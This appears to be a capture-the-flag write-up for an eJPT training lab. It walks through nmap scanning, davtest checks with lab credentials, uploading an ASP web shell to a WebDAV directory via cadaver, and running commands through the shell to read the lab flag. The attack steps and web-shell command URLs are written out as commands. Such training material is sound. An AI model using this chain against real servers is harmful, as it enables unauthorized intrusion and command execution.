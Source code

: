# Vulnerability Assessment - WebDAV Exploitation Walkthrough

This document outlines a step-by-step walkthrough for exploiting a vulnerable WebDAV service to retrieve a flag during the **eJPT Vulnerability Assessment** lab.

> **Lab URL:**
> [https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688](https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688)

---

## 📁 Challenge Details

* **Category:** Vulnerability Assessment
* **Target:** `demo.ine.local`
* **Goal:** Exploit WebDAV to retrieve the final flag

---

## 🔎 Step 1: Initial Port Scan

We start with a basic port scan using Nmap:

```bash
nmap demo.ine.local
```

![Step 1](./1.png)

Identified services:

* HTTP on port 80
* SMB on ports 139 and 445
* MySQL on 3306
* RDP on 3389

---

## 🔍 Step 2: Web Enumeration with Nmap Scripts

We enumerate the HTTP service with the `http-enum` script:

```bash
nmap --script http-enum -sV -p 80 demo.ine.local
```

![Step 2](./2.png)

Revealed the presence of `/webdav/` directory, which is potentially vulnerable.

---

## ⚙️ Step 3: Check WebDAV with `davtest`

First, test if the DAV connection is allowed:

```bash
davtest --url http://demo.ine.local/webdav
```

![Step 3](./3.png)

It responded as **open but unauthorized**.

---

## 🔐 Step 4: Authenticated WebDAV Test

Now try authenticated testing using provided credentials:

```bash
davtest --auth bob:password_123321 --url http://demo.ine.local/webdav
```

![Step 4](./4.png)

This succeeded in creating a directory and uploading various file types. The server allowed execution of `.txt`, `.html`, and `.asp`.

---

## 📊 Step 5: Review Summary Output

We review which files executed successfully:

![Step 5](./5.png)

`.txt`, `.html`, and `.asp` file types were confirmed executable.

---

## 🔧 Step 6: Upload Web Shell with Cadaver

Now we use `cadaver` to interactively upload a reverse shell:

```bash
cadaver http://demo.ine.local/webdav
```

![Step 6](./6.png)

Uploaded: `webshell.asp`

---

## 🔎 Step 7: Authenticate in Browser

Visit the WebDAV directory in Firefox:

![Step 7](./7.png)

Login with username: `bob`, password: `password_123321`

---

## 🔢 Step 8: Command Execution via Web Shell

We access the shell and execute:

```bash
http://demo.ine.local/webdav/webshell.asp?cmd=whoami
```

![Step 8](./8.png)

Successfully ran remote commands as `iis apppool\\defaultapppool`

---

## 📚 Step 9: Locate the Flag

Now we browse the system to locate the flag file:

```bash
cmd=dir C:\
```

![Step 9](./11.png)

Found file: `flag.txt`

Retrieve the flag with:

```bash
cmd=type C:\flag.txt
```

![Step 10](./12.png)

**FLAG:** `9cc175b9c0f1b6a831c399e269772661`

---

## 🕊️ Summary

This challenge involved:

1. Scanning for open services
2. Discovering and verifying WebDAV access
3. Exploiting file upload and execution via DAV
4. Uploading and executing a web shell
5. Reading the flag from the system drive

---

**Disclaimer:** This test was conducted in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.

---

**🔗 [Back to eJPT CTF Challenges Repo](https://github.com/sara5521/eJPT-CTF-Challenges)**
